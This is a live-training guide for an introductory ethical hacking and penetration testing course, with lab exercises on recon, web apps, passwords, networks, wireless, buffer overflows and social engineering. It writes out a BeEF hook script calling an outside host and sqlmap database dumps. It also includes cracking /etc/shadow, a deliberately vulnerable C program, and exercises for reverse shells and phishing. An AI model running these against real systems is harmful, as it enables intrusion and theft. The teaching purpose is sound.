

Introduction to Ethical Hacking and Penetration Testing with Omar Santos

Introduction to Ethical Hacking
Live Training Guide
https://theartofhacking.org
By Omar Santos
Table of Contents
Introduction to Ethical Hacking and Penetration Testing Live Training
Training Summary
Helpful Resources Prior to Taking the Live Training:
About the Author and Instructor:
Agenda and Topics
DAY ONE
DAY TWO
Lesson 1: Overview of Ethical Hacking and Penetration Testing
Disclaimer
Prerequisites and Other Resources
Quick Definitions Needed for the Training
What is Penetration Testing or Ethical Hacking?
What is a White Hat Hacker?
What is a Black Hat Hacker?
What is a Gray Hat Hacker?
What is a Script Kiddie?
Elite (l33t, 1337) Hacker
Hacktivist
What is a Vulnerability?
What is a threat?
What is an Exploit?
What is an Exploit-Kit?
Cyber Security and Ethical Hacking Certifications
Penetration Testing / Ethical Hacking
Other Popular Cyber Security Certifications
Penetration Testing Methodologies
Lesson 2: Introduction to Kali Linux
Building Your Own Lab
Exercise 2.1 - Download and Install Kali Linux
Resources:
Step-by-Step Installation and Customization of Kali
Exercise 2.2 - Default Username and Password
Resources:
Exercise 2.3 - Managing Kali Services
Resources:
Lesson 3: Passive and Active Reconnaissance
Lesson 3.1 - Passive Reconnaissance
Exercise 3.2 - Active Reconnaissance
NMAP Cheat Sheets
Exercise 3.3 - Metasploit and nmap
Exercise 3.4 - Wireshark
Exercise 3.5 - NMAP Scripting Engine
Lesson 4: Introduction to Hacking Web Applications
Exercise 4.1 - Damn Vulnerable Web App, Nikto, and More
Exercise 4.2 - WebGoat
Exercise 4.3 - Burp Suite
Exercise 4.4 - SQL Injection
Exercise 4.5 - Command Execution
Exercise 4.6 - Metasploit Unleashed
Exercise 4.7 - OWASP zaproxy
Lesson 5: Introduction to Hacking User Credentials
Exercise 5.1 - Default Passwords
Exercise 5.2 - Cracking Passwords
Lesson 6: Introduction to Hacking Databases
Exercise 6.1 - SQL Injection Part Deux
Exercise 6.2 - Zaproxy
Lesson 7: Introduction to Hacking Networking Devices
Exercise 7.1 - Creating a Virtual Lab & Performing an ARP Cache Poisoning Attack
Exercise 7.2 - Using Scapy
Exercise 7.3 - Man-in-the-Middle with socat, mitmproxy, and ettercap
Exercise 7.4 (Optional VIRL Setup)
Lesson 8: Fundamentals of Wireless Hacking
Exercise 8.1 - Building Your Own Wireless Lab
Exercise 8.2 - Cracking WEP
Exercise 8.3 - Attacking WPA Networks
Exercise 8.4 - Surveying other tools
Additional Wireless References:
Wireless Client Attacks
Building Your Wireless Lab and Attack Hardware
Aircrack-ng
Cracking WEP
Hacking WPA
Performing Wireless Reconnaissance
Evil Twins and Rogue Access Points
Attacking Bluetooth
Attacking NFC
Lesson 9: Introduction to Buffer Overflows
Exercise 9.1
Lesson 10: Fundamentals of Evasion and Post Exploitation Techniques
Exercise 10.1 - Maintaining persistence, pivoting, and data exfiltration.
Exercise 10.2 - Learn how to evade detection and cover your tracks.
Additional References:
One more gem!
Lesson 11: Introduction to Social Engineering
Exercise 11.1 - Spear-Phishing Attack Vectors
Exercise 11.2 - Website Attack Vectors
Exercise 11.3 - Credential Harvester Attack Method
Exercise 11.4 - (Bonus) QR Code Generator Attack Vector
Lesson 12: How to Write Penetration Testing Reports
Exercise 12.1 - Penetration Testing Report Templates and Format
Exercise 12.2 - Dradis
Additional Cybersecurity Courses and Live Training
Certifications
CCNA CYBER OPS
CCNA SECURITY
Ethical Hacking Courses
Other Safari Cybersecurity Live Training
Introduction to Ethical Hacking and Penetration Testing Live Training
This guide is a collection of supplemental resources and exercises for the Pearson training "Introduction Ethical Hacking and Penetration Testing" live training authored and delivered by Omar Santos and delivered through Safari Books Online.
The author also has created a series of penetration testing / ethical hacking video courses called The Art of Hacking Series.
Training Summary
This course is useful you are starting your cybersecurity career, seeking your Certified Ethical Hacker, Offensive Security Certified Professional (OSCP) Certification, or CompTIA PenTest+ certifications; or just interested in learning more about cyber security, this two-day training session is a great place to start. No prior ethical hacking experience is needed.
This course provides step-by-step real-life scenarios. You will see first-hand how an ethical hacker performs initial reconnaissance of a victim and how to assess systems and network security controls security posture. This training includes live discussions, demos, whiteboard instruction and screencasts.
Helpful Resources Prior to Taking the Live Training:
About the Author and Instructor:
Omar Santos is an active member of the security community, where he leads several industry-wide initiatives and standard bodies. His active role helps businesses, academic institutions, state and local law enforcement agencies, and other participants that are dedicated to increasing the security of the critical infrastructure.
Omar is the author of over 20 books and video courses; numerous white papers, articles, and security configuration guidelines and best practices. Omar is a Principal Engineer of Cisco’s Product Security Incident Response Team (PSIRT) where he mentors and lead engineers and incident managers during the investigation and resolution of security vulnerabilities.
Follow Omar on Twitter
Agenda and Topics
DAY ONE
- Lesson 1: Overview of Ethical Hacking and Penetration Testing
- Lesson 2: Introduction to Kali Linux
- Lesson 3: Passive and Active Reconnaissance
- Lesson 4: Introduction to Hacking Web Applications
- Lesson 5: Introduction to Hacking User Credentials
- Lesson 6: Introduction to Hacking Databases
DAY TWO
- Lesson 7: Introduction to Hacking Networking Devices
- Lesson 8: Fundamentals of Wireless Hacking
- Lesson 9: Introduction to Buffer Overflows
- Lesson 10: Fundamentals of Evasion and Post Exploitation Techniques
- Lesson 11: Introduction to Social Engineering
- Lesson 12: How to Write Penetration Testing Reports
Lesson 1: Overview of Ethical Hacking and Penetration Testing
Disclaimer
The information provided on this training is for educational purposes only. The author, O’Reilly, or any other entity is in no way responsible for any misuse of the information. Some of the tools and technologies that you will learn in this training class may be illegal depending on where you reside. Please check with your local laws.
Please practice and use all the tools that are shown in this training in a lab that is not connected to the Internet or any other network.
Prerequisites and Other Resources
Quick Definitions Needed for the Training
What is Penetration Testing or Ethical Hacking?
- An ethical hacker is as a person who is hired and permitted by an organization to attack its systems for the purpose of identifying vulnerabilities, which an attacker might take advantage of.
- The sole difference between the terms “malicious hacking” and “ethical hacking” is the permission.
What is a White Hat Hacker?
- Security professionals or security researchers that perform ethical hacking.
- Such hackers are employed by an organization and are permitted to attack an organization to find vulnerabilities that an attacker might be able to exploit.
What is a Black Hat Hacker?
- Sometimes also referred to as a cracker, threat actor, bad actor, or malicious attacker.
- Uses his or her knowledge for negative purposes.
- Of course, they are often referred to by the media as hackers.
What is a Gray Hat Hacker?
- Somewhere in between a white hat and a black hat hacker.
- For instance, a gray hat hacker would work as a white hat hacker for an organization and then disclose everything to them.
- But might leave a backdoor to access it later and might also sell the confidential information or carry other attacks for his or her benefit.
What is a Script Kiddie?
- From Google: "a person who uses existing computer scripts or code to hack into computers, lacking the expertise to write their own."
Elite (l33t, 1337) Hacker
- Has deep knowledge on how an exploit works.
- Such hacker is able to create exploits, but also modify codes that someone else wrote.
- In other words, someone with elite skills of hacking.
Hacktivist
- Hacktivists are defined as group of hackers that hack into computer systems for a cause or purpose.
- The purpose may be political gain, freedom of speech, human rights, and so on.
What is a Vulnerability?
- A vulnerability is an exploitable weakness in a system or its design.
- Vulnerabilities can be found in protocols, operating systems, applications, hardware, and system designs.
What is a threat?
- A threat is any potential danger to an asset.
- If a vulnerability exists but has not yet been exploited—or, more importantly, it is not yet publicly known— “the threat is latent and not yet realized.”
What is an Exploit?
- An exploit is software or a sequence of commands that takes advantage of a vulnerability in order to cause harm to a system or network.
- There are several methods of classifying exploits; however, the most common two categories are remote and local exploits.
What is an Exploit-Kit?
An exploit kit is a compilation of exploits that are often designed to be served from web servers.
Examples:
- Angler
- Mpack
- Fiesta
- Phoenix
- Blackhole
- Crimepack
- RIG
Cyber Security and Ethical Hacking Certifications
Penetration Testing / Ethical Hacking
Other Popular Cyber Security Certifications
- ISC2 - including CISSP, SSCP, CCSP, CAP, CSSLP, HCISPP, CISSP Concentrations
- Cisco Security Certifications:
Penetration Testing Methodologies
Lesson 2: Introduction to Kali Linux
Building Your Own Lab
Exercise 2.1 - Download and Install Kali Linux
- Download Kali Linux from: https://www.kali.org
- Become familiar with the Kali Linux architecture and all available tools.
Resources:
Step-by-Step Installation and Customization of Kali
Exercise 2.2 - Default Username and Password
- The default username is root and the default password is toor. Change the default password.
- Create an unprivileged user.
Resources:
Exercise 2.3 - Managing Kali Services
- Watch this video and familiar with the different Kali Linux services.
- Enable SSH and customize your installation.
Resources:
Lesson 3: Passive and Active Reconnaissance
Lesson 3.1 - Passive Reconnaissance
- Using your own system (i.e., desktop, laptop, or Kali Linux VM, etc.) find your public IP address and lookup all information you can about it.
- Try whatsmyip.org or ipchicken.com
- Pick a random company or institution that is not a Fortune 500 or a big Internet service provider (ISP), so that makes it harder for you to find information about it. Do NOT launch any active recon against such organization.
- You can use Maltego for this. Watch this video if you are not familiar with Maltego.
- Also use recon-ng and the harvester. If you want a refresher on how to use these tools, watch this video and this one.
- Find any information you can about network infrastructure
- Registered domain names
- IP Address allocations
- Open services and banners
Leverage the tools listed at: theartofhacking.org/recon
Exercise 3.2 - Active Reconnaissance
- Review the Active Recon videos part of the Security Penetration Testing The Art of Hacking Series LiveLessons.
- Launch nmap from your Kali Linux box.
- Only scan devices that are in your lab! As we discussed in the class, the best way to do this is to build a local lab with virtual machines on a segregated network. Using nmaptry to learn the hosts that are active in your network and all the "victims" you can find.
- Once you find all the active hosts, try to find all the open TCP and UDP ports on those machines. Nmap doesn't scan all ports by default. It limits itself to 1000 or so common ports. Figure out how to overcome this limitation.
- Add Server Version checks (nmap -sV) to gain more information.
NMAP Cheat Sheets
Exercise 3.3 - Metasploit and nmap
- You can add the results from nmap to the Metasploit database. In order to do so, start the postgresql service:
root@kali:~# systemctl start postgresql.service
root@kali:~# systemctl status postgresql.service
postgresql.service - PostgreSQL RDBMS
Loaded: loaded (/lib/systemd/system/postgresql.service; disabled; vendor preset: disabled)
Active: active (exited) since Wed 2018-02-21 22:59:18 EST; 7s ago
Process: 3432 ExecStart=/bin/true (code=exited, status=0/SUCCESS)
Main PID: 3432 (code=exited, status=0/SUCCESS)
Feb 21 22:59:18 kali systemd[1]: Starting PostgreSQL RDBMS...
Feb 21 22:59:18 kali systemd[1]: Started PostgreSQL RDBMS.
root@kali:~# |
- Initialize the msf database:
root@kali:~# msfdb init
Creating database user 'msf'
Enter password for new role:
Enter it again:
Creating databases 'msf' and 'msf_test'
Creating configuration file in /usr/share/metasploit-framework/config/database.yml
Creating initial database schema
root@kali:~# |
root@kali:~# msfconsole
msf > db_status
[*] postgresql connected to msf
msf > |
- Using db\_nmap instead of nmap. For example:
msf > db\_nmap -sV 192.168.78.8
[*] Nmap: Starting Nmap 7.60 ( https://nmap.org ) at 2018-02-21 23:02 EST
[*] Nmap: Nmap scan report for 192.168.78.8
[*] Nmap: Host is up (1.1s latency).
[*] Nmap: Not shown: 994 closed ports
[*] Nmap: PORT STATE SERVICE VERSION
[*] Nmap: 22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
[*] Nmap: 80/tcp open http Apache httpd 2.4.10 ((Debian))
[*] Nmap: 139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
[*] Nmap: 445/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
[*] Nmap: 514/tcp filtered shell
[*] Nmap: 8080/tcp open http-proxy
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 27.10 seconds
msf >
msf > services
Services
========
host port proto name state info
---- ---- ----- ---- ----- ----
192.168.78.8 22 tcp ssh open OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 Ubuntu Linux; protocol 2.0
192.168.78.8 80 tcp http open Apache httpd 2.4.10 (Debian)
192.168.78.8 139 tcp netbios-ssn open Samba smbd 3.X - 4.X workgroup: WORKGROUP
192.168.78.8 445 tcp netbios-ssn open Samba smbd 3.X - 4.X workgroup: WORKGROUP
192.168.78.8 514 tcp shell filtered
192.168.78.8 8080 tcp http-proxy open
msf > |
Exercise 3.4 - Wireshark
- Open Wireshark and listen to the traffic on the interface that you have connected to the network.
- What protocols are present?
- Filter for:
\* arp
\* netbios
\* rip
\* udp.port = 53
\* etc.. |
Exercise 3.5 - NMAP Scripting Engine
Lesson 4: Introduction to Hacking Web Applications
A few popular vulnerable operating systems that you can use (free) to build a hacking lab and practice your skills are:
Additional vulnerable servers and websites that you can use to practice are located at the GitHub repository for The Art of Hacking Training.
All of these are great sources to test various types of attacks against, including the tools available within Kali Linux.
Exercise 4.1 - Damn Vulnerable Web App, Nikto, and More
- Install Damn Vulnerable Web App (DVWA) in a VM (VirtualBox or VMWare).
- Run an nmap scan from your Kali Linux VM to find out all the ports open in that VM.
- Become familiar with the tool called Nikto and launch the tool against the DVWA VM.
# nikto -host <ip_address_of_dvwa_host> |
Exercise 4.2 - WebGoat
- Install WebGoat on a VM, Docker container, or physical bare metal machine (up to you ;-) ).
- WebGoat is a monster and a super useful framework for you to learn about tons of web application vulnerabilities and related-attacks. I strongly suggest going over all of the lessons and challenges there. They provide step-by-step instructions on how to perform each attack.
To install it using a Docker container do the following:
docker pull webgoat/webgoat-8.0
docker run -p 8080:8080 -t webgoat/webgoat-8.0 |
For the latest development version of WebGoat, see https://github.com/WebGoat/WebGoat/wiki
Exercise 4.3 - Burp Suite
- Become familiar with BurpSuite.
- Start BurpSuite.
- Choose Temporary project, Click Next
- Choose Use Burp defaults, Click Start Burp
- Click on the Proxy tab, then Intercept. Make sure Intercept is Off.
- Set Firefox in Kali to use BurpSuite as a proxy and disable captive portal detection. Using Firefox on Kali, browse to about:config. Choose I Accept the Risk. Search for captive. Set network.captive-portal-service.enabled to false. Proxy settings can be found in Open Menu → Preferences → Advanced → Network → Configure how Firefox connects to the Internet → Settings...
- Select Manual proxy configuration and make sure HTTP Proxy is set to localhost and port 8080
- Using Firefox, browse to http://<your_dvwa_ip_address>/dvwa. You should see the request show up in BurpSuite under HTTP History
- Change the Security Level of DVWA to Low. This can be found in DVWA Security.
- Start the beef-xss service:
Make sure you can reach the BeEF UI authentication page at http://localhost:3000/ui/authentication
Note: By default, requests to localhost will not be sent to BurpSuite with the default proxy settings
- Log in with the username beef and password beef .
- In a new tab, navigate to XSS Reflected. You can view the PHP source code by clicking the View Source button at the bottom of the page. Try placing your name in the Textbox and click Submit. From looking at BurpSuite, how was your name sent to the server? Trigger a reflected XSS alert and print out the current document cookie.
- Navigate to XSS Stored. Figure out a way to insert a BeEF Hook:
<script src="http://192.168.1.2:3000/hook.js" type="text/javascript"></script> |
- From the BeEF UI, see if the Windows browser is hooked. If not, figure out why not.
- Type your name and a message from Windows in the message and store it.
- What version of Firefox is running on the hooked Windows Browser?
- What is the size of the screen?
- See if you can see the characters that were entered in Windows from the Beef UI. You may need to refresh the log Create a prompt dialog with the message of your choice. (Commands → Browser → Hooked Domain)
- Finally, get the hooked browser's cookie.
Exercise 4.4 - SQL Injection
- Navigate to SQL Injection. Enumerate users on the system with an SQL injection.
- Use SQLMap to dump the database.
# sqlmap --cookie="<cookie>" --url="http://metasploitable/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --string="surname" --dump |
Exercise 4.5 - Command Execution
- Navigate to Command Execution.
- Inject the command id. What user is PHP running as?
- Spawn a reverse shell using netcat.
Exercise 4.6 - Metasploit Unleashed
Complete the Metasploit Unleashed Training Exercises for Web Application Exploit Development.
This is a great resource by the folks from Offensive Security.
Exercise 4.7 - OWASP zaproxy
- Launch the OWASP zaproxy and perform a scan to your vulnerable server. These videos may be useful and of course, the demos that I showed you during the training.
- Did you find similar vulnerabilities?
- Use zaproxy as a proxy and intercept the data send to your victim.
Lesson 5: Introduction to Hacking User Credentials
References:
Exercise 5.1 - Default Passwords
Default passwords are often left unchanged in many devices. You can certainly take advantage of this "malpractice". Become familiar with the default password databases available on the Internet:
Exercise 5.2 - Cracking Passwords
- In your Kali machine, create three (3) users (user1, user2, and user3).
root@kali#adduser user1
root@kali#adduser user2
root@kali#adduser user3 |
- Configure the password with the passwd user1 command to the word password
- Configure the password with the passwd user2 command to thisissecure
- Configure the password with thepasswd user3 command to P4sswd.
- Use John the Ripper to try to crack the password and see how long it takes for the passwords to be cracked:
root@kali#john /etc/shadow |
Lesson 6: Introduction to Hacking Databases
Exercise 6.1 - SQL Injection Part Deux
- Use Burp proxy as you learned in class to capture all data between your browser and the DVWA. Make sure that you setup your browser proxy settings to use Burp as the proxy (i.e., 127.0.0.0 port 8080 by default).
- Navigate to SQL Injection in the DVWA.
- Enter a string in the username form.
- Capture the request on Burp and save it to a file. For example, sql_test.txt
- Launch sqlmap using the file:
sqlmap -r sql_test.txt --dbs |
- Follow the instructions in sqlmap.
- You should see the databases in the system. Then use the following command to dump the database content:
sqlmap -r sql_test.txt -D dvwa --dump-all |
Exercise 6.2 - Zaproxy
- You can do similar things with the OWASP zaproxy. Make sure that Burp is not running and launch the zaproxy.
- For this one, I am not going to give you a lot of instructions ;-)Try to figure out how to perform a SQL injection using zaproxy to the same DVWA.
Additional References:
Lesson 7: Introduction to Hacking Networking Devices
✨Great explanation by Chris McCoy at: https://theartofhacking.org/go/hacking_networks.html
Exercise 7.1 - Creating a Virtual Lab & Performing an ARP Cache Poisoning Attack
- Create a virtual network using two VMs (Kali and any other small Linux VM, as a victim) and use either a physical Layer 3 switch or router; or Open vSwitch.
- Use the arping tool to retrieve the MAC address of your router.
- Perform a ARP Cache poisoning attack using the arpspoof tool as shown in the video demonstration and use the dsniff tool to capture packets. dsniff is a collection of tools created by Dug Song. These are used for network auditing and penetration testing including dsniff, filesnarf, mailsnarf, msgsnarf, urlsnarf, and webspy (used to passively monitor a network).
Exercise 7.2 - Using Scapy
- Become familiarized with scapy with this video and these docs. Feel free to use this scapy cheat sheet.
- A good way is to go over the interactive tutorial here.
- Create a scapy script that will allow you to:
- retrieve the MAC address of your router
- Perform the ARP cache poisoning attack that you completed using arpspoof. Then use dsniff to passively monitor the traffic.
Exercise 7.3 - Man-in-the-Middle with socat, mitmproxy, and ettercap
- Perform a MiTM attack using socat, mitmproxy, and ettercap, following the instructions in this video.
Exercise 7.4 (Optional VIRL Setup)
- Watch this video about how to create a quick lab using the Virtual Internet Routing Lab Personal Edition (VIRL PE) lab infrastructure (not free!). VIRL is a powerful network virtualization and orchestration platform that enables the development of highly accurate models of existing or planned networks.
- Download the VIRL topology files and follow along these demonstrations.
Lesson 8: Fundamentals of Wireless Hacking
DO NOT HACK YOUR NEIGHBOR!
Use these instructions on a controlled lab and in your own wireless network.
Exercise 8.1 - Building Your Own Wireless Lab
- In the training we covered the different wireless adapters, antennas, and other devices. You can also watch this video for additional references.
- Make sure that you install and configure a wireless adapter that can not only monitor wireless communication, but that can also inject frames into a wireless network. I also have a write-up about recommendations of wireless adapters in this GitHub repository.
- Use airmon-ng to setup your adapter in monitoring mode.
- Use airodump-ng to monitor the wireless networks that are in your proximity. Can you find your wireless router? Record the channel, BSSID, and ESSID.
Exercise 8.2 - Cracking WEP
- Setup your wireless router to perform WEP authentication.
- Use aircrack-ng to crack your WEP password. Follow this video for step-by-step instructions.
Exercise 8.3 - Attacking WPA Networks
- Setup your wireless router to perform WPA pre-shared key authentication.
- Follow this video and use aircrack-ng to crack your WPA password.
Exercise 8.4 - Surveying other tools
- Use cowpatty to crack the WPA pre-shared key.
- You can follow the step-by-step instructions in this video.
Additional Wireless References:
Wireless Client Attacks
Building Your Wireless Lab and Attack Hardware
Aircrack-ng
Cracking WEP
Hacking WPA
Performing Wireless Reconnaissance
Evil Twins and Rogue Access Points
Attacking Bluetooth
Attacking NFC
Lesson 9: Introduction to Buffer Overflows
This is a great resources explaining what are buffer overflows. https://youtu.be/1S0aBV-Waeo
Exercise 9.1
- In addition to the reference above learn how to exploit buffer overflows from this video and as you learned during the live training demonstration.
- Use and modify the following code:
#include <stdio.h>
void omarSecretFunction()
{
printf("Omar's Crappy Function\n");
printf("This is a super secret function!\n");
}
void echo()
{
char buffer[20];
printf("Please enter your name:\n");
scanf("%s", buffer);
printf("You entered: %s\n", buffer);
}
int main()
{
echo();
return 0;
} |
- The char buffer[20]; is a really bad idea here.
- Compile this into a 32 bit binary:
If you are using a 32-bit system, it can be as easy as:
gcc vuln.c -o vuln -fno-stack-protector |
On a 64-bit system use:
gcc vuln.c -o vuln -fno-stack-protector -m32 |
-fno-stack-protector disables stack protection and -m32 forces to do compilation in 32-bit.
Note: Additional libraries may be needed in order for you to compile 32 bit binaries on 64 bit machines. It all depends on your machine.
- Use edb --run <the_name_of_your_binary> to debug the code and try to create a payload that will invoke omarSecretFunction().
You can use tools like msfvenom to generate shellcode.
Additional References:
Lesson 10: Fundamentals of Evasion and Post Exploitation Techniques
This section is mostly to provide you additional references and requires that you already have the following:
- A vulnerable Windows machine.
- You have already used a successful exploit to get a foothold of the victim machine.
Exercise 10.1 - Maintaining persistence, pivoting, and data exfiltration.
- Watch this video(s) to refresh your memory of what you learned in class about maintaining persistence, pivoting, and data exfiltration.
Exercise 10.2 - Learn how to evade detection and cover your tracks.
Additional References:
One more gem!
FREE Offensive Security Metasploit training: Post Exploitation
Lesson 11: Introduction to Social Engineering
Exercise 11.1 - Spear-Phishing Attack Vectors
- Review this video to learn more about the Social Engineering Toolkit (SET).
- Create a spear phishing email to send a malicious payload taking advantage of the Adobe Collab.getIcon Buffer Overflow vulnerability using SET.
- Create a custom email template and use an open mail relay (you will need to create one). Alternatively, use gmail.
Additional References:
Exercise 11.2 - Website Attack Vectors
- Use SET to launch a social engineering (web-based attack).
- Use the Metasploit Browser Exploit Method and use the Adobe Flash Player Nellymoser Audio Decoding Buffer Overflow.
- Do not use a template. Become familiar on how to clone a website using SET.
- Spawn a meterpreter shell on victim and send back to you (the attacker).
Exercise 11.3 - Credential Harvester Attack Method
- Use SET to launch a social engineering (web-based attack).
- In this case use the Credential Harvester Attack Method.
- Do not use a website template or clone any site. Create your own HTML and select custom import.
Exercise 11.4 - (Bonus) QR Code Generator Attack Vector
- Use SET to generate a QR code for a fake website.
- Save the QR code under .set/reports/qrcode_attack.png.
- Use SET to create an infected media file leveraging the MSCOMCTL ActiveX Buffer Overflow vulnerability. Host it on the fake website and try to infect the victim. This of course, requires that you have a vulnerable Windows machine (vulnerable to ms12-027).
Lesson 12: How to Write Penetration Testing Reports
These are mostly references vs. actual exercises...
Exercise 12.1 - Penetration Testing Report Templates and Format
- Watch these videos and these ones as a reference.
- You can access dozens of real-life penetration testing reports in our GitHub repository.
- Create an example report of all the activities and findings in the previous lesson. Make sure that you have a good executive summary. If you like the results and are proud of your report, feel free to contribute it to the GitHub repository by making a pull request. Watch this video if you do not know how to make a pull request.
Exercise 12.2 - Dradis
1.Dradis comes installed in Kali Linux, but you can also download it from https://dradisframework.com/ce/.
- Perform an nmap scan to your victim host(s) and export the results to XML.
- Use the Upload output from tool functionality to import the results of your scan.
- Create custom methodologies.
- Try to become familiar with the tool and create reports.
Bonus : Download the Offensive Security OSCP report template for Dradis: https://dradisframework.com/academy/industry/compliance/oscp/
Use it as a general guidance whether you are preparing for the certification or just starting to learn penetration testing concepts.
Additional Cybersecurity Courses and Live Training
Certifications
CCNA CYBER OPS
CCNA SECURITY
Ethical Hacking Courses
Other Safari Cybersecurity Live Training